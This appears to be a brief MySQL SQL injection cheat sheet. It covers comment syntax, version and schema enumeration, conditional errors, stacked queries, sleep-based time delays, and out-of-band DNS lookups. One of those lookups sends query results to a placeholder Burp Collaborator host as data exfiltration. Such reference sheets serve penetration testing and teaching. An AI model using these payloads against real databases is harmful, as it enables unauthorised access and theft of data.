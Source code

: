 ## summary

Useful SQL commands for mysql dbms

## string concatenation
`'foo' 'bar'` **note:** there is space exist between quotes


## substring
`SUBSTRING('foobar', 4, 2)`

## comments
`-- comments` **note:** there is space exist after dashes

`/*comments*/`

`#comments`

## database version
`select @@version`

## database contents
`select * from information_schema.tables`

`select * from information_schema.columns where table_name = 'TABLE-NAME-HERE'`

## conditional errors
`select if(YOUR-CONDITION-HERE,(select table_name from information_schema.tables),'a')`

## batched (or stacked) queries
`query-1-here; query-2-here`

## time delays
`select sleep(10)`

### samples

## conditional time delays
`select if(YOUR-CONDITION-HERE,sleep(10),'a')`

## dns lookup
The following techniques work on Windows only.

`load_file('\\\\YOUR-COLLABORATOR.burpcollaborator.net\\a') select ... into outfile '\\\\YOUR-COLLABORATOR.burpcollaborator.net\a'`

## dns lookup with data exfiltration
The following technique works on Windows only. 

`select YOUR-QUERY-HERE into outfile '\\\\YOUR-COLLABORATOR.burpcollaborator.net\a' 

